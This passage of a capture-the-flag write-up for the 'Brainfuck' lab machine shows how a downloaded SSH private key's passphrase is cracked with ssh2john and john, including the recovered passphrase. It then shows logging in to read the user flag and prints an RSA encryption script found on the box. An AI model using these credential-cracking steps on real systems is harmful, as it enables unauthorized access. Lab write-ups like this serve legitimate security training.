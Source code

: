 ### Passphrase-protected private SSH Key

After downloading the key, we attempt to login to `orestis` with it but failed as it is protected with a passphrase.

```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa orestis@brainfuck.htb
The authenticity of host 'brainfuck.htb (10.10.10.17)' can't be established.
ECDSA key fingerprint is SHA256:S+b+YyJ/+y9IOr9GVEuonPnvVx4z7xUveQhJknzvBjg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'brainfuck.htb,10.10.10.17' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
orestis@brainfuck.htb: Permission denied (publickey).
```

Using `ssh2john`, we can extract a hash of the passphrase and crack it with `john`.

```bash
$ /usr/share/john/ssh2john.py id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-01-08 07:53) 0.3649g/s 5234Kp/s 5234Kc/s 5234KC/sa6_123..*7¡Vamos!
Session completed
```

# user.txt

With the passphrase and the private `SSH` key, we can now login as `orestis` and get the user flag.

```bash
$ ssh -i id_rsa orestis@brainfuck.htb                 
Enter passphrase for key 'id_rsa': 

orestis@brainfuck:~$ cat user.txt
2c11XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Enumeration (3)

On `orestis` home directory were a few files:

`encrypt.sage`:
```python
encrypt.sage 
nbits = 1024

password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))

p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
```
